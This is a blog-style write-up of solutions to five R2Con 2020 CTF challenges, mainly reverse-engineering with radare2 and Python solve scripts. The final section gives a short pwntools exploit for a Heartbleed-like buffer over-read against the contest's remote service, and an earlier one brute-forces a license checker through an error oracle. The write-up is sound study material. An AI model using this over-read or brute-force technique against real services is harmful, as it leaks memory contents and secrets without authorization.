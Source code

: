 ﻿# R2Con CTF 2020 - Writeups
-- By [S01den](https://twitter.com/s01den) (07/09/2020) --

The r2con and its CTF just ended, it was an awesome event !
The CTF was pretty fun and I finished 5th.
I can't wait for the r2con 2021 ! 
In this short paper, I'll share you my notes on the challenges I solved.

## Hellcode

Hellcode is a challenge evaluated as "easy".
It consists on a list of 111 small ELF binaries in which information (the flag) is hidden.
First of all, we can notice that all the binaries have the same size, 5368 bytes.
```
[solden@solden-pc hellcode]$ ls -al
-rwxr-xr-x 1 solden solden 5368  3 sept. 20:09 binary0
-rwxr-xr-x 1 solden solden 5368  3 sept. 20:09 binary1
-rwxr-xr-x 1 solden solden 5368  3 sept. 20:09 binary10
-rwxr-xr-x 1 solden solden 5368  3 sept. 20:09 binary100
-rwxr-xr-x 1 solden solden 5368  3 sept. 20:09 binary101
-rwxr-xr-x 1 solden solden 5368  3 sept. 20:09 binary102
```
Let's spot the differences between theses files:
```bash
[solden@solden-pc hellcode]$ radiff2 binary0 binary1
0x000010bc 53 => 3c 0x000010bc
0x000010d6 ff => 33 0x000010d6
0x0000131e 696f65306a5f336c => 63316770756e6f5f 0x0000131e
[solden@solden-pc hellcode]$ radiff2 binary0 binary97
0x000010bb ea53 => f247 0x000010bb
0x000010d6 ff => 22 0x000010d6
0x0000131e 696f65306a5f336c => 73365f6630653636 0x0000131e
```
Okay, the differences in 0x131e aren't important here (it's just a kind of temporary name the file had).
So now, we know that there is only 2 important differences between the files.
Let's investigate that with radare2.
We get the following instructions for binary0:
```
     │││╎   0x100000ba      80ea53         sub dl, 0x53                ; 83
     │││    0x100000d4      80faff         cmp dl, 0xff                ; 255
```
And this one for binary 97:
```
     │││╎   0x100000ba      80f247         xor dl, 0x47                ; 71
     │││    0x100000d4      80fa22         cmp dl, 0x22                ; 34
```
Now we can extract theses interesting values in each binary, we get the lists k1 (x in "operation dl, x") and k2 (x in "cmp dl, x").
After that we just need to extract the correct operation in each binary (sub, xor or add) in order to calculate each bytes of the hidden message (containing the flag).

```Python
import r2pipe

k1 = [83, 60, 22, 13, 67, 57, 21, 24, 62, 31, 63, 59, 25, 25, 62, 78, 22, 57, 11, 90, 11, 100, 60, 78, 93, 81, 12, 79, 40, 72, 39, 11, 43, 51, 32, 76, 13, 60, 89, 93, 38, 50, 14, 19, 54, 67, 70, 50, 66, 78, 55, 26, 51, 7, 72, 76, 23, 2, 26, 25, 69, 62, 86, 76, 69, 5, 34, 67, 51, 21, 26, 47, 53, 33, 48, 30, 81, 87, 42, 78, 85, 89, 24, 68, 84, 14, 15, 1, 93, 70, 48, 96, 49, 70, 65, 29, 12, 71, 39, 55, 92, 35, 82, 38, 84, 41, 19, 93, 2, 7, 45]
k2 = [255, 51, 93, 88, 48, 89, 118, 90, 39, 63, 177, 160, 125, 19, 94, 56, 127, 54, 119, 11, 127, 23, 92, 47, 47, 20, 44, 177, 68, 189, 62, 39, 11, 71, 136, 41, 45, 162, 53, 190, 141, 18, 119, 96, 22, 181, 236, 149, 177, 32, 68, 42, 69, 94, 186, 10, 36, 49, 126, 112, 179, 89, 181, 35, 3, 100, 32, 38, 161, 118, 104, 70, 254, 82, 173, 50, 113, 184, 68, 42, 203, 8, 132, 40, 204, 122, 89, 110, 208, 31, 16, 2, 88, 40, 32, 85, 101, 34, 76, 87, 189, 81, 183, 70, 186, 70, 133, 195, 123, 104, 88]

for i in range(111):
    f = "binary"+str(i)
    """
    # the piece of code to extract k1 and k2
    file = open(f,"rb")
    c = bytearray(file.read())
    k1.append((c[0x10bc]))
    k2.append((c[0x10d6]))
    """
    r = r2pipe.open(f)
    r.cmd('s 0x100000ba')
    cm = r.cmd('pd 1')
    if 'add' in cm:
        print(chr((k2[i]-k1[i])&0xff))
    elif 'sub' in cm:
        print(chr((k2[i]+k1[i])&0xff))
    elif 'xor' in cm:
        print(chr((k2[i]^k1[i])&0xff))
```
With this script, we can finally get the flag: 
r2con{0verF33ding_oF_Binari3s}

## eXit
This one is another easy challenge, consisting in a textual-based game in which we have to find a hidden answer to get the flag.
I won't go into details because I didn't take a lot of notes, but we just need to grab some arrays and perform simple operations on them.

```Python
a = [0xde, 0xad, 0xbe, 0xef, 0xde, 0xad, 0xbe, 0xef, 0xca, 0xfe, 0x13, 0x37, 0xca, 0xfe, 0x13, 0x37, 1, 2 , 3, 4, 5, 6, 7, 8, 9, 0x0a, 0x7f, 0x67]
b = [0x97, 0xcd, 0xd2, 0xd6, 0xc0, 0xc7, 0xcd, 0x84, 0xec, 0x91, 0xad, 0x62, 0xf5, 0xf1, 0x65, 0x22, 0x58, 0x82, 0xb1, 0x37, 0x61, 0x3e, 0x5d] # s 0x207b ; pd 20
c = [0x0a, 0x09, 0x08, 0x07, 0x06, 0x05, 0x04, 0x03, 0x02, 0x01, 0x37, 0x13, 0x37, 0x13, 0xfe, 0xca, 0x37, 0x13, 0x37, 0x13]
d = [0x9c, 0xcd, 0xe1, 0x8e, 0xb0, 0x92, 0xd7, 0x91, 0xc0, 0x9e, 0xb2] # s 0x20c7 ; pd 10
f = ""
for i in range(len(c)):
	print(chr(((b[i]-c[i])^a[i])&0xff))
	f += chr(((b[i]-c[i])^a[i])&0xff)
print(f)

f = ""
for i in range(len(d)):
	print(chr(((d[i]-c[i])^a[i])&0xff))
	f += chr(((d[i]-c[i])^a[i])&0xff)
print(f)
```
With that, we finally obtain the flag !
r2con{Sit down next to my friendLight matchStay}

##  Defuse 

Defuse is the last easy challenge I solved during this CTF.
By disassembling it with r2 we found the function which transforms every char of the flag we submit in order to compare them with the "ciphered" bytes of the flag.
However, the "AND" operation isn't fully reversible so there is a looooooot of different input which makes the binary saying "[*] You got the flag! You saved the world from the end!"
So first, we apply the transform function to the whole alphabet to get a table of correspondence.
Then, with this dirty script we can generate all theses potential flags.

```Python
def transform(byte):
	byte ^= 0x28
	byte += 0x15
	byte &= 0x5ff5fff5
	return byte

for i in range(0x60,0x7f):
	print(chr(i),':',hex(transform(i)))

ciphered = [0x60,0x70,0x54,0x51,0x65,0x70,0x51,0x60,0x65,0x54,0x51,0x60,0x50,0x54,0x65,0x60,0x71,0x54,0x50,0x60]
one = "aio" # 0x54
two = "ce"  # 0x60
three = "km"# 0x50
four = "ln" # 0x51
five = "prxz" # 0x65
six = "su" # 0x70
seven = "tv" # 0x71

for e in five:
	for f in six:
		for g in four:
			for h in two:
				for i in five:
					for j in one:
						for k in four:
							for l in two:
								for m in three:
									for n in one:
										for o in five:
											for p in two:
												for q in seven:
													for r in one:
														for s in three:
															for t in two:
																flag = "esil"+e+f+g+h+i+j+k+l+m+n+o+p+q+r+s+t
																print(flag)

"""

a, i, o : 0x54
c, e, : 0x60
k, m : 0x50
l, n : 0x51
p, r, x, z : 0x65
s, u: 0x70
t, v : 0x71
"""
```

The hint said that the correct flag is a grammatically-correct sentence which begins with "esil",
so by grepping we found r2con{esilrulezonemoretime} .

## Radare License Checker

This one is a "medium" challenge, consisting of a binary checking the license key of a dystopic version of radare2.
However the check is made byte per byte, and the program tell us in which byte the decryption failed.
So we can easily write a bruteforcing script:

```Python
from pwn import *

done = 6
true_flag = "r2con{"

for i in range(done,0x22):
    for charac in range(ord(' ')+1,0x7f):

        password = ""
        password += true_flag
        password += chr(charac)
        password += "A"*(33-done)

        cmd = ["/bin/wine", "radarelicensechecker.exe",password]
        print(cmd)
        r = process(cmd)
        line = r.recvuntil("!")

        if(int(line[len(line)-3:len(line)-1]) != i):
            print("yay ! ---> "+chr(charac))
            true_flag += chr(charac)
            
            flag = open("flag.txt","w")
            flag.write("%s"%true_flag)
            flag.close()

            done+=1
            break

 ```
 After a couple of hours, we get the flag: r2con{D0nt_Do_Crypt0_At_Hom3_Kids}
 
 ## Bleeding hearts

This one was another "medium" crackme, it was a pwn challenge.
It consists of the binary of a service, (running online at challenges.0xmurphy.me:4444) vulnerable to a vulnerability similar to heartbleed, as we can guess with the title.
*"The vulnerability is classified as a [buffer over-read](https://en.wikipedia.org/wiki/Buffer_over-read "Buffer over-read"),[[5]](https://en.wikipedia.org/wiki/Heartbleed#cite_note-cve-5) a situation where more data can be read than should be allowed.[[6]](https://en.wikipedia.org/wiki/Heartbleed#cite_note-6)"*, thanks Wikipedia !
First we reverse the "protocol" with radare2, by a dynamic analysis; then we spot that 0x405360 contains the flag (read from flag.txt), and we can write whatever we want in 0x405160.
The struct of the leaking request is **<PLEASE REPLY \<msg\>[randomshit][size_of_msg]>**
But if we attribute a big value to size_of_msg, we are able to read the flag, which isn't far from our "msg" in memory.

```Python
from pwn import *

r = remote("challenges.0xmurphy.me",4444)
r.sendline("!CLIENT HELLO!")
print(r.recv())
r.sendline("?ECHO REQUEST?")
print(r.recv())
end_payload = "<PLEASE REPLY <"+"A"*512+">[AAAA][608]>"
r.sendline(end_payload)
print(r.recv())

```
However for this challenge I forgot to save the flag in my notes...

That's all !
